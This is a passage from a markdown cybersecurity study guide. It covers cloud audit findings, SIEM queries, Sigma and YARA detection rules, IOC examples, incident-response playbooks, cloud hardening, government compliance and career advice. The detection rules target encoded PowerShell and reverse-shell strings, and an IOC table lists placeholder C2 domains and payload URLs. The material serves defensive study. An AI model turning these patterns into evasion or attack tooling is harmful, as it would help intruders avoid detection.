# Remediation: Rotate keys, apply least privilege, implement secrets scanning in CI
```

### Finding 3: Security Group — SSH Open to World

```bash
aws ec2 describe-security-groups --group-ids sg-0abc123
# Inbound: 0.0.0.0/0 port 22 (SSH)

# Severity: High
# Remediation: Restrict to bastion host IP or VPN CIDR
```

### Finding 4: CloudTrail Disabled in Region

```bash
aws cloudtrail describe-trails --region eu-west-1
# No trails configured in eu-west-1 (resources exist there)

# Severity: High
# Remediation: Enable CloudTrail in all regions, send to centralized S3 with MFA delete
```

### Finding 5: GuardDuty Not Enabled

```bash
aws guardduty list-detectors
# Empty — GuardDuty not enabled

# Severity: Medium
# Remediation: Enable GuardDuty organization-wide
```

### Finding 6: EKS Cluster Public Endpoint

```bash
aws eks describe-cluster --name prod-cluster --query 'cluster.resourcesVpcConfig'
# endpointPublicAccess: true
# publicAccessCidrs: ["0.0.0.0/0"]

# Severity: High
# Remediation: Disable public endpoint, use private endpoint with VPN/bastion
```

---

# Part 9: Blue Team / SOC / Detection

## SIEM Overview

SIEM (Security Information and Event Management) aggregates logs, correlates events, and alerts on suspicious activity.

| Platform | Strengths | Query Language |
|----------|-----------|----------------|
| Splunk | Enterprise standard, vast app ecosystem | SPL |
| Elastic (ELK) | Open source, scalable, cost-effective | KQL / Lucene / ES\|QL |
| Microsoft Sentinel | Azure-native, cloud SIEM | KQL |
| Chronicle (Google) | Petabyte scale, threat intel | YARA-L |
| QRadar | IBM enterprise, good correlation | AQL |

### Splunk Query Examples

```spl
# Failed SSH logins by source IP (last 24 hours)
index=linux sourcetype=linux_secure "Failed password"
| stats count by src_ip
| where count > 10
| sort - count

# Successful login after multiple failures (possible brute force success)
index=linux sourcetype=linux_secure ("Failed password" OR "Accepted password")
| transaction src_ip maxspan=5m
| where eventcount > 5 AND match(_raw, "Accepted")

# PowerShell execution with encoded command
index=windows EventCode=4104 ScriptBlockText="*-enc*"
| table _time, host, user, ScriptBlockText

# Data exfiltration — large outbound transfers
index=firewall action=allowed dest_port=443
| stats sum(bytes_out) as total_bytes by src_ip, dest_ip
| where total_bytes > 100000000
| sort - total_bytes
```

### Elastic/Kibana Query Examples

```json
// Failed login attempts exceeding threshold
{
  "query": {
    "bool": {
      "must": [
        { "match": { "event.action": "authentication_failure" } },
        { "range": { "@timestamp": { "gte": "now-1h" } } }
      ]
    }
  },
  "aggs": {
    "by_source_ip": {
      "terms": { "field": "source.ip", "min_doc_count": 10 }
    }
  }
}
```

```
# KQL (Kibana Query Language)
event.action:"authentication_failure" and @timestamp > now()-1h
| stats count() by source.ip
| where count > 10
```

```yaml
# Sigma rule example — Suspicious PowerShell Encoded Command
title: Suspicious PowerShell Encoded Command
status: experimental
logsource:
    product: windows
    service: powershell
detection:
    selection:
        EventID: 4104
        ScriptBlockText|contains:
            - '-enc '
            - '-EncodedCommand'
            - 'FromBase64String'
    condition: selection
level: high
tags:
    - attack.execution
    - attack.t1059.001
```

---

## IOCs (Indicators of Compromise)

| IOC Type | Example | Use |
|----------|---------|-----|
| IP address | 185.234.72.15 | Block at firewall, search in logs |
| Domain | evil-c2.example.com | DNS block, search proxy logs |
| URL | http://malware.site/payload.exe | Block at proxy, search access logs |
| File hash (SHA256) | abc123def456... | Block at EDR, search file systems |
| Email address | phisher@fake.com | Block at email gateway |
| Registry key | HKLM\...\Run\malware | Search endpoints |
| Mutex | Global\MalwareMutex123 | Memory/behavior detection |
| User-Agent | Mozilla/4.0 (compatible; MSIE 6.0...) | Search proxy logs |

### IOC Lifecycle



### STIX/TAXII (Awareness)

| Standard | Purpose |
|----------|---------|
| STIX | Structured language for threat intelligence |
| TAXII | Protocol for sharing threat intelligence |
| MISP | Open source threat sharing platform |

---

## YARA Introduction

YARA rules identify malware families by matching patterns in files or memory.

```yara
rule Suspicious_ELF_Reverse_Shell {
    meta:
        description = "Detects common reverse shell patterns in ELF binaries"
        author = "analyst"
        date = "2026-07-20"

    strings:
        $s1 = "/bin/sh" ascii
        $s2 = "connect" ascii
        $s3 = "dup2" ascii
        $s4 = "execve" ascii

    condition:
        uint32(0) == 0x464c457f and  // ELF magic
        filesize < 50KB and
        3 of ($s*)
}
```

```bash
# Scan with YARA
yara rules/suspicious_elf.yar /path/to/sample/
yara -r rules/ /cases/evidence/
```

---

## Incident Response — NIST SP 800-61



| Phase | Actions |
|-------|---------|
| **Preparation** | IR plan, tools, training, playbooks, contacts |
| **Detection & Analysis** | Alert triage, scope determination, evidence collection |
| **Containment** | Short-term (isolate host), long-term (segment network) |
| **Eradication** | Remove malware, patch vulnerabilities, reset credentials |
| **Recovery** | Restore from clean backups, monitor for re-infection |
| **Post-Incident** | Lessons learned, update playbooks, metrics |

### IR Playbook: Ransomware

```
DETECTION:
- EDR alert: mass file encryption detected
- User report: files renamed to .locked extension
- SIEM: spike in file modification events

IMMEDIATE (0-15 min):
1. Isolate affected host(s) from network (pull cable or EDR network isolation)
2. Preserve memory (if possible): volatility or EDR memory dump
3. Notify IR team lead and management
4. DO NOT pay ransom (yet — business decision later)
5. DO NOT reboot affected systems (destroys memory evidence)

CONTAINMENT (15-60 min):
1. Identify patient zero (first infected host)
2. Check for lateral movement (SIEM: auth events, SMB connections)
3. Disable compromised accounts
4. Block known C2 IPs/domains at firewall

ERADICATION:
1. Reimage affected systems from known-good baseline
2. Patch exploited vulnerability
3. Reset all potentially compromised credentials
4. Scan backups for encryption before restore

RECOVERY:
1. Restore from clean backups (verify backup integrity first)
2. Enhanced monitoring for 30 days
3. Gradual return to production

POST-INCIDENT:
1. Timeline reconstruction
2. Root cause analysis
3. Update IR plan and detection rules
4. Report to leadership / regulators if required
```

---

## Forensics Chain of Custody

| Field | Description |
|-------|-------------|
| Evidence ID | Unique identifier (CASE-2026-001-DRIVE-01) |
| Description | "Samsung SSD 500GB from workstation WS-042" |
| Collector | Name, badge, date/time |
| Source | Physical location, system hostname |
| Hash (before) | SHA-256 of forensic image |
| Storage location | Evidence locker number or secure storage |
| Access log | Every person who accessed evidence, date/time, purpose |
| Hash (after) | SHA-256 verification before analysis |

```bash
# Create forensic image
sudo dd if=/dev/sdb bs=4M status=progress | sha256sum | tee hash.txt
sudo dd if=/dev/sdb bs=4M | gzip > /cases/2026-001/image.dd.gz

# Verify
sha256sum /cases/2026-001/image.dd.gz
```

> **Never Forget:** If chain of custody is broken, evidence may be **inadmissible in court**. Document every handoff.

---

## EDR (Endpoint Detection and Response)

| Product | Vendor | Strengths |
|---------|--------|-------------|
| CrowdStrike Falcon | CrowdStrike | Market leader, strong threat intel |
| Microsoft Defender for Endpoint | Microsoft | Native Windows integration |
| SentinelOne | SentinelOne | Autonomous response |
| Carbon Black | VMware | Customization, on-prem option |
| Cortex XDR | Palo Alto | Network + endpoint correlation |

### EDR Key Capabilities

| Capability | Description |
|------------|-------------|
| Process monitoring | Track process creation, parent-child relationships |
| File monitoring | Detect file creation, modification, deletion |
| Network monitoring | Connection tracking from endpoints |
| Memory analysis | Detect fileless malware |
| Behavioral detection | ML-based anomaly detection |
| Response actions | Isolate host, kill process, quarantine file |
| Threat hunting | Query across fleet for IOCs |

---

## SOAR Overview

SOAR (Security Orchestration, Automation, and Response) automates repetitive IR tasks.



| Platform | Vendor |
|----------|--------|
| Cortex XSOAR | Palo Alto |
| Splunk SOAR (Phantom) | Splunk |
| Microsoft Sentinel | Automation playbooks |
| Shuffle | Open source |
| TheHive + Cortex | Open source IR platform |

**Example automated playbook:**
1. SIEM alert: malware detected on endpoint
2. SOAR enriches file hash with VirusTotal
3. If malicious: isolate host via EDR API, block hash fleet-wide, create P1 ticket, notify on-call analyst
4. If clean: close alert with enrichment data

---

# Part 10: Cloud Security

## AWS Security (Primary Focus)

### Shared Responsibility Model

| AWS Responsible For | Customer Responsible For |
|--------------------|--------------------------|
| Physical data centers | Data classification |
| Hardware / networking | IAM policies |
| Hypervisor | OS patching (EC2) |
| Managed service infrastructure | Security groups / NACLs |
| | Application security |
| | Data encryption |
| | Network configuration |

### IAM (Identity and Access Management)

**Principles:**
- Least privilege
- No long-term access keys where roles suffice
- MFA on root and privileged accounts
- Regular access reviews

```bash
# Audit IAM users
aws iam list-users
aws iam list-access-keys --user-name deploy-bot
aws iam get-access-key-last-used --access-key-id AKIA...

# Check for admin policies attached to users
aws iam list-attached-user-policies --user-name deploy-bot

# Find unused credentials (90+ days)
aws iam generate-credential-report
aws iam get-credential-report --output text | cut -d, -f1,5,9,11
```

| IAM Best Practice | Implementation |
|-------------------|----------------|
| Least privilege | Custom policies, no `*` actions |
| Role-based access | EC2 instance roles, not access keys |
| MFA everywhere | Enforce via IAM policy condition |
| No root for daily use | Root only for account management |
| Rotate keys | 90-day rotation policy |
| Permission boundaries | Limit max permissions for delegated admins |

### S3 Security

```bash
# Audit public buckets
aws s3api list-buckets --query 'Buckets[].Name' --output text | while read bucket; do
    acl=$(aws s3api get-bucket-acl --bucket "$bucket" 2>/dev/null)
    policy=$(aws s3api get-bucket-policy --bucket "$bucket" 2>/dev/null)
    echo "=== $bucket ==="
    echo "$acl" | grep -i "AllUsers\|AuthenticatedUsers" && echo "PUBLIC ACL DETECTED"
done

# Enable Block Public Access (account level)
aws s3control put-public-access-block \
    --account-id 123456789012 \
    --public-access-block-configuration \
    BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true

# Enable default encryption
aws s3api put-bucket-encryption --bucket my-bucket \
    --server-side-encryption-configuration \
    '{"Rules":[{"ApplyServerSideEncryptionByDefault":{"SSEAlgorithm":"AES256"}}]}'
```

| Misconfiguration | Risk | Fix |
|------------------|------|-----|
| Public read ACL | Data breach | Block public access |
| No encryption | Data exposure if storage compromised | Enable SSE-S3 or SSE-KMS |
| No versioning | Ransomware deletes objects permanently | Enable versioning + MFA delete |
| No logging | No audit trail | Enable S3 access logging |
| Overly permissive bucket policy | Cross-account access | Principle of least privilege |

### Security Groups vs NACLs

| Feature | Security Group | NACL |
|---------|---------------|------|
| Level | Instance/ENI | Subnet |
| Stateful | Yes (return traffic auto-allowed) | No (must allow both directions) |
| Rules | Allow only | Allow and deny |
| Evaluation | All rules | Ordered by rule number |
| Default | Deny all inbound | Allow all |

```
Recommended SG for web server:
Inbound:
  - Port 443 from 0.0.0.0/0 (HTTPS from internet)
  - Port 22 from 10.0.1.0/24 (SSH from bastion subnet only)
Outbound:
  - Port 443 to 0.0.0.0/0 (updates, API calls)
  - Port 3306 to 10.0.2.0/24 (database subnet only)
```

### CloudTrail

```bash
# Verify CloudTrail is enabled in all regions
aws cloudtrail describe-trails
aws cloudtrail get-trail-status --name my-trail

# Enable organization trail
aws cloudtrail create-trail \
    --name org-trail \
    --s3-bucket-name my-cloudtrail-bucket \
    --is-multi-region-trail \
    --enable-log-file-validation

# Search for unauthorized API calls
aws cloudtrail lookup-events \
    --lookup-attributes AttributeKey=EventName,AttributeValue=CreateUser \
    --start-time 2026-07-01T00:00:00Z
```

| Event to Monitor | Why |
|------------------|-----|
| `CreateUser`, `CreateAccessKey` | Unauthorized account creation |
| `PutBucketPolicy`, `PutBucketAcl` | S3 exposure |
| `AuthorizeSecurityGroupIngress` | Firewall changes |
| `DeleteTrail`, `StopLogging` | Attacker covering tracks |
| `ConsoleLogin` without MFA | Account compromise |
| `AssumeRole` to admin roles | Privilege escalation |

### GuardDuty

```bash
# Enable GuardDuty
aws guardduty create-detector --enable

# List findings
aws guardduty list-findings --detector-id abc123 \
    --finding-criteria '{"Criterion":{"severity":{"Gte":4}}}'

# Common finding types
# UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration
# CryptoCurrency:EC2/BitcoinTool.B!DNS
# Recon:EC2/PortProbeUnprotectedPort
# Backdoor:EC2/C&CActivity.B!DNS
```

---

## Multi-Cloud Brief

| Service | AWS | Azure | GCP |
|---------|-----|-------|-----|
| Identity | IAM | Entra ID (Azure AD) | Cloud IAM |
| Object storage | S3 | Blob Storage | Cloud Storage |
| Compute | EC2 | Virtual Machines | Compute Engine |
| Logging | CloudTrail | Activity Log | Cloud Audit Logs |
| Threat detection | GuardDuty | Defender for Cloud | Security Command Center |
| Key management | KMS | Key Vault | Cloud KMS |
| Network firewall | Security Groups | NSG | Firewall Rules |

### Azure Key Checks

```bash
# Azure CLI — list storage accounts with public access
az storage account list --query "[?allowBlobPublicAccess==\`true\`].name"

# Check for overly permissive NSG rules
az network nsg rule list --nsg-name my-nsg --resource-group my-rg \
    --query "[?access=='Allow' && direction=='Inbound' && sourceAddressPrefix=='*']"
```

### GCP Key Checks

```bash
# List service account keys (should be minimal)
gcloud iam service-accounts keys list --iam-account=my-sa@project.iam.gserviceaccount.com

# Check for public bucket ACLs
gsutil iam get gs://my-bucket
```

---

## Kubernetes Security Basics



| Risk | Mitigation |
|------|------------|
| Privileged containers | Pod Security Standards (restricted) |
| Default service account | Create dedicated SAs per workload |
| Secrets in env vars | Use secrets manager (Vault, ESO) |
| No network policies | Default deny, allow specific |
| Public API endpoint | Private cluster + authorized networks |
| Image vulnerabilities | Scan in CI/CD (Trivy, Snyk) |
| RBAC over-permission | Least privilege, regular audit |

```yaml
# Secure pod spec example
apiVersion: v1
kind: Pod
metadata:
  name: secure-app
spec:
  serviceAccountName: app-service-account
  securityContext:
    runAsNonRoot: true
    runAsUser: 1000
    fsGroup: 1000
  containers:
  - name: app
    image: myapp:1.2.3
    securityContext:
      allowPrivilegeEscalation: false
      readOnlyRootFilesystem: true
      capabilities:
        drop: ["ALL"]
    resources:
      limits:
        memory: "512Mi"
        cpu: "500m"
```

```bash
# Audit kubectl access
kubectl auth can-i --list --as=system:serviceaccount:default:default

# Check for privileged pods
kubectl get pods --all-namespaces -o jsonpath='{range .items[*]}{.metadata.name}{"\t"}{.spec.containers[*].securityContext.privileged}{"\n"}{end}' | grep true
```

---

# Part 11: Government & Compliance

## NIST Cybersecurity Framework (CSF)



| Function | Purpose | Example Activities |
|----------|---------|-------------------|
| **Identify** | Understand assets, risks, governance | Asset inventory, risk assessment, governance policies |
| **Protect** | Safeguard delivery of services | Access control, awareness training, data security, maintenance |
| **Detect** | Identify cybersecurity events | Anomaly detection, continuous monitoring, detection processes |
| **Respond** | Take action on detected events | Response planning, communications, analysis, mitigation |
| **Recover** | Restore capabilities | Recovery planning, improvements, communications |

### CSF Implementation Tiers

| Tier | Name | Description |
|------|------|-------------|
| 1 | Partial | Ad hoc, reactive |
| 2 | Risk Informed | Approved but not org-wide |
| 3 | Repeatable | Formal policies, org-wide |
| 4 | Adaptive | Continuous improvement, threat-aware |

---

## NIST SP 800-53 Overview

800-53 provides security and privacy controls for federal information systems. Organized into control families:

| Family | ID | Focus |
|--------|-----|-------|
| Access Control | AC | Who can access what |
| Awareness and Training | AT | Security training |
| Audit and Accountability | AU | Logging and audit trails |
| Assessment, Authorization, Monitoring | CA | Continuous monitoring |
| Configuration Management | CM | Baseline configurations |
| Contingency Planning | CP | Backup and recovery |
| Identification and Authentication | IA | Identity management, MFA |
| Incident Response | IR | IR capability |
| Maintenance | MA | System maintenance controls |
| Media Protection | MP | Removable media, sanitization |
| Physical and Environmental | PE | Physical security |
| Planning | PL | Security plans |
| Program Management | PM | Security program |
| Personnel Security | PS | Background checks, termination |
| Risk Assessment | RA | Vulnerability scanning, risk analysis |
| System and Services Acquisition | SA | Secure development |
| System and Communications Protection | SC | Encryption, network security |
| System and Information Integrity | SI | Flaw remediation, malware protection |

### Example Control Mapping

| Control | ID | Technical Implementation |
|---------|-----|-------------------------|
| Account Management | AC-2 | IAM provisioning/deprovisioning process |
| Least Privilege | AC-6 | RBAC, sudo restrictions |
| Audit Events | AU-2 | auditd, CloudTrail, SIEM |
| Audit Review | AU-6 | Weekly log review SOP |
| Multi-Factor Authentication | IA-2 | PIV/CAC cards, MFA on all admin |
| Flaw Remediation | SI-2 | Patch management within 30 days |
| Malicious Code Protection | SI-3 | EDR on all endpoints |
| Encryption in Transit | SC-8 | TLS 1.2+ everywhere |
| Encryption at Rest | SC-28 | AES-256 disk encryption |

### Control Baselines

| Baseline | Use Case |
|----------|----------|
| Low | Minimal impact if compromised |
| Moderate | Most federal systems |
| High | Critical infrastructure, classified adjacent |

---

## FedRAMP

FedRAMP provides standardized approach to security assessment, authorization, and monitoring for cloud services used by federal agencies.

| Concept | Description |
|---------|-------------|
| **Authorization** | Formal approval to operate (ATO) |
| **Impact Level** | Low, Moderate, High (matches 800-53 baselines) |
| **3PAO** | Third-Party Assessment Organization — independent assessor |
| **ConMon** | Continuous monitoring after authorization |
| **JAB** | Joint Authorization Board — provisional authorization |
| **Agency ATO** | Individual agency grants authorization |



---

## FISMA

FISMA (Federal Information Security Modernization Act) requires federal agencies to develop, document, and implement information security programs.

| Component | Description |
|-----------|-------------|
| Categorize | FIPS 199 — determine impact level (Low/Moderate/High) |
| Select | Choose 800-53 controls based on baseline |
| Implement | Deploy controls |
| Assess | Test control effectiveness (800-53A) |
| Authorize | AO makes risk-based decision |
| Monitor | Continuous monitoring (800-137) |

This is the **Risk Management Framework (RMF)** — see NIST SP 800-37.

---

## Security Clearance Path Overview

| Clearance | Investigation | Reinvestigation | Typical Roles |
|-----------|---------------|-----------------|---------------|
| Public Trust | Background check | Every 5 years | Support roles |
| Confidential | NACLC | Every 15 years | Basic access |
| Secret | SSBI | Every 10 years | Most DoD/IC positions |
| Top Secret | SSBI-PR | Every 5 years | Sensitive programs |
| TS/SCI | SSBI-PR + polygraph | Every 5 years | Intelligence community |

### Process Overview

```
1. Job offer requiring clearance
2. Employer submits sponsorship
3. Complete SF-86 (Questionnaire for National Security Positions)
4. Investigation by OPM/DCSA
   - Credit check
   - Criminal history
   - References interview
   - Foreign contacts/ travel review
5. Adjudication (can take months to over a year)
6. Clearance granted (or denied/withheld)
7. Periodic reinvestigation
```

### Lifestyle Considerations

- Financial responsibility (debt, bankruptcy)
- Foreign contacts and travel
- Drug use history (policy evolving — check current guidance)
- Criminal history
- Honesty on SF-86 (omission is worse than the issue itself)

> **Never Forget:** Clearance is about **trustworthiness**, not just technical skill. Honesty on your SF-86 is paramount.

---

## STIGs (Security Technical Implementation Guides)

STIGs are configuration standards from DISA for hardening DoD systems.

```bash
# Install OpenSCAP
sudo apt install openscap-scanner scap-security-guide

# Evaluate against STIG profile
sudo oscap xccdf eval \
    --profile xccdf_org.ssgproject.content_profile_stig \
    --results stig-results.xml \
    --report stig-report.html \
    /usr/share/xml/scap/ssg/content/ssg-ubuntu2204-ds.xml

# Generate remediation script
sudo oscap xccdf generate fix \
    --profile xccdf_org.ssgproject.content_profile_stig \
    --fix-type bash \
    /usr/share/xml/scap/ssg/content/ssg-ubuntu2204-ds.xml > stig-fix.sh
```

| STIG Area | Key Requirements |
|-----------|-----------------|
| RHEL/Ubuntu | Password policy, audit, SSH hardening, firewall |
| Web Server | TLS config, remove default content, logging |
| Database | Authentication, encryption, audit logging |
| Network Device | Disable unused services, SNMP community strings |

---

## Zero Trust for Government

NIST SP 800-207 defines Zero Trust Architecture principles:

| Principle | Implementation |
|-----------|----------------|
| Never trust, always verify | Authenticate and authorize every request |
| Assume breach | Micro-segmentation, continuous monitoring |
| Least privilege access | Just-in-time access, time-bound permissions |
| Inspect and log all traffic | Encrypted traffic inspection, comprehensive logging |



### Zero Trust Maturity Model

| Pillar | Traditional | Initial | Advanced | Optimal |
|--------|-------------|---------|----------|---------|
| Identity | Siloed auth | Unified IAM | MFA everywhere | Continuous validation |
| Device | Unknown devices | Inventory | Compliance check | Real-time trust score |
| Network | Perimeter firewall | Micro-segmentation | Software-defined perimeter | Identity-based access |
| Application | Perimeter trust | App-level auth | API gateway | Continuous authorization |
| Data | Network-level | Classification | Encryption + DLP | Automated labeling |

---

# Part 12: Big Tech Career

## Certification Roadmap

```mermaid
flowchart TB
    Start[Beginner] --> SecPlus[CompTIA Security+]
    SecPlus --> Branch{Career Path}
    Branch --> Offensive
    Branch --> Defensive
    Branch --> GRC
    Offensive --> CEH[CEH]
    CEH --> OSCP[OSCP]
    OSCP --> OSCE[OSCE3 / Advanced]
    Defensive --> CySA[CySA+]
    CySA --> GCIH[GIAC GCIH]
    GCIH --> GCFA[GIAC GCFA]
    GRC --> CISM[CISM]
    SecPlus --> CISSP[CISSP - 5yr experience]
    CISSP --> CISA[CISA]
```

| Certification | Focus | Difficulty | Cost (approx) | Best For |
|---------------|-------|------------|---------------|----------|
| CompTIA Security+ | Broad foundation | Easy-Medium | $400 | Entry-level, DoD 8570 |
| CompTIA CySA+ | Detection, analysis | Medium | $400 | SOC analyst |
| CEH | Ethical hacking theory | Medium | $1,200 | Gov contractor, resume keyword |
| OSCP | Hands-on pentesting | Hard | $1,600 | Red team, respected in industry |
| CISSP | Management, broad | Medium-Hard | $750 | Senior roles, management |
| GIAC GCIH | Incident handling | Hard | $2,500+ | IR specialist |
| GIAC GCFA | Forensics | Hard | $2,500+ | Forensic analyst |
| AWS SCS | Cloud security | Hard | $300 | Cloud security engineer |
| CCSP | Cloud security (vendor-neutral) | Hard | $600 | Cloud + governance |

### Recommended Progression

**Year 1:** Security+ → build labs → CySA+ or CEH
**Year 2:** OSCP (if offensive) or GCIH (if defensive) → cloud cert (AWS SCS or Azure SC-200)
**Year 3–5:** CISSP → specialize (OSCE, GCFA, GWAPT)

---

## Interview Topics

### Technical Categories

| Category | Example Questions |
|----------|-------------------|
| **Foundations** | Explain CIA triad. Difference between symmetric and asymmetric encryption. |
| **Networking** | Walk through TCP handshake. What happens when you type a URL in browser? |
| **Web Security** | Explain SQL injection and prevention. How does CSRF work? |
| **Cloud** | Explain AWS shared responsibility. How would you detect a compromised IAM key? |
| **Incident Response** | Walk through your IR process for ransomware. How do you scope a breach? |
| **Cryptography** | Explain TLS handshake. Why is salting important? |
| **Linux/Windows** | How do you investigate a compromised Linux server? What logs do you check first? |
| **Detection** | Write a SIEM query for brute force detection. What is an IOC? |
| **Architecture** | Design authentication for a multi-tenant SaaS. How would you implement zero trust? |

### Sample Technical Questions with Approach

**Q: How would you investigate a potentially compromised Linux server?**

```
A (structured):
1. DO NOT reboot or power off (preserve memory)
2. Isolate from network (if containment needed)
3. Preserve evidence: image disk, hash files, screenshot running processes
4. Analyze:
   - last, lastb (login history)
   - ps aux, lsof -i (running processes, connections)
   - /var/log/auth.log (authentication events)
   - find / -perm -4000 (SUID binaries)
   - crontab -l, /etc/cron.* (persistence)
   - Check for rootkits: compare ps vs /proc
5. Determine scope: lateral movement, data access
6. Contain, eradicate, recover
7. Document timeline and lessons learned
```

**Q: Design a secure authentication system for a web application.**

```
A (structured):
1. HTTPS everywhere (TLS 1.2+)
2. Password storage: bcrypt/Argon2 with unique salt
3. MFA (TOTP or WebAuthn/FIDO2)
4. Rate limiting on login (prevent brute force)
5. Secure session management: HttpOnly, Secure, SameSite cookies
6. Short session timeout + refresh token rotation
7. Account lockout after failed attempts
8. Audit logging of auth events
9. Password reset via time-limited email token (not security questions)
10. CSRF protection on all state-changing requests
```

### Behavioral (STAR Method)

| Theme | Example Question |
|-------|-----------------|
| Leadership | Tell me about a time you led an incident response |
| Conflict | Describe a disagreement with a colleague about a security fix |
| Failure | Tell me about a security assessment that missed something |
| Initiative | When did you go above and beyond on a security project? |
| Communication | How do you explain a critical vulnerability to non-technical executives? |

---

## Resume Projects

Projects demonstrate practical skills. Each should have a GitHub repo with README.

| Project | Skills Demonstrated | Resume Bullet Example |
|---------|--------------------|-----------------------|
| Log analysis tool (Python) | Python, regex, SIEM concepts | "Built Python log parser that reduced SSH brute-force triage time by 80%" |
| Cloud security scanner | AWS API, Python, IAM | "Developed open-source tool to detect 12 common AWS misconfigurations" |
| Vulnerable app + writeups | Web security, documentation | "Created intentionally vulnerable web app with 15 OWASP-aligned challenges" |
| Detection rule pack (Sigma) | Detection engineering, ATT&CK | "Published Sigma rule pack mapping 20 techniques to Windows event logs" |
| Home lab with writeups | Full-stack security, networking | "Documented 30+ HTB/TryHackMe machines with detailed methodology" |
| Security header checker | Web security, automation | "Built CLI tool adopted by team to audit 500+ internal web properties" |
| IR playbook automation | SOAR concepts, scripting | "Automated ransomware IR playbook reducing initial response time from 45 to 5 minutes" |

### Resume Tips for Security

1. **Quantify impact:** "Reduced MTTR by 40%" beats "Improved incident response"
2. **Link GitHub:** Every project should be verifiable
3. **No classified details:** "Supported classified program" not "Hacked into X system"
4. **Keywords:** Match job description (SIEM, AWS, Python, MITRE ATT&CK, NIST)
5. **Certifications section:** List with dates
6. **One page** for junior, two pages max for senior

---

## Bug Bounty Ethics

| Rule | Detail |
|------|--------|
| Stay in scope | Only test domains/endpoints listed in program scope |
| Read the policy | Each program has unique rules (no automated scanning, no DoS) |
| Do not access other users' data | Prove IDOR without reading real user PII |
| Report responsibly | Use platform reporting, do not disclose publicly until fixed |
| Minimum viable proof | Demonstrate impact without causing harm |
